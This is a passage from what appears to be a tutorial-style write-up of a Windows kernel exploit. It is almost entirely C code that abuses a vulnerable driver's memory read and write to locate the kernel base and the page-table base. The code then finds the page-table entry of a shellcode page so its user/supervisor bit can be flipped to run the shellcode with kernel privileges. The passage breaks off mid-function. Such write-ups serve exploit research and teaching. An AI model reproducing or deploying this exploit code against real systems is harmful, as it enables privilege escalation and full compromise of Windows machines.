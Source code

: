 ```c
	LOG("[+] ntoskrnl.exe is located at: 0x%llx\n", kernelBaseAddress);

	return kernelBaseAddress;
}
```

Then, we will be getting the PTEs base address -
```c
unsigned long long getBasePteAddress(HANDLE hDriver, unsigned long long kernelBaseAddress) {

	unsigned long long NtMiGetPteAddress = kernelBaseAddress + MI_PTE_GET_ADDRESS_OFFSET;

	// Defining a pointer to write the base of PTEs to. (must initialize pointer, hence placeholder).
	unsigned long long pteBaseAddressPlaceHolder = 0;
	PULONGLONG baseOfPtes = &pteBaseAddressPlaceHolder;

	// Defining buffer to send to driver
	char buffer[0x10];
	size_t oneQword = 0x8;

	// Initializing buffer to junk to satisfy type error of memset.
	memset(buffer, 0x41, 0x10);

	// Actual buffer for extracting the PTE base.
	memcpy(buffer, &NtMiGetPteAddress, oneQword);
	memcpy(&buffer[0x8], &baseOfPtes, oneQword);

	sendBufferToDriver(hDriver, buffer);

	LOG("[+] Base of the page table entries: 0x%llx\n", (unsigned long long) * baseOfPtes)

	return (unsigned long long) * baseOfPtes;
}
```

Now, let's find the shellcode PTE - 
```c
unsigned long long getShellcodePTEAddress(unsigned long long baseOfPtes, void* shellcodeAddress) {

	// Bitwise operations to locate PTE of shellcode page
	unsigned long long shellcodePte = (unsigned long long)shellcodeAddress >> 9;
	shellcodePte = shellcodePte & 0x7FFFFFFFF8;
	return shellcodePte + baseOfPtes;
}
```

Calculate the address of the Control Flags where the `U/S` bit can be found -
```c
unsigned long long getShellcodePteControlFlagAddress(HANDLE hDriver, unsigned long long shellcodePte) {

	// Defining a pointer to extract shellcode's PTE control bits. (must initialize pointer, hence placeholder).
	unsigned long long placeholder = 0;
	PULONGLONG pteControlFlagsPointer = &placeholder;

	// Defining buffer to send to driver.
	char buffer[0x10];
	size_t oneQword = 0x8;

	// Initializing buffer to junk to satisfy type error of memset
	memset(buffer, 0x41, 0x10);

	// Actual buffer for extracting PTE control bits
```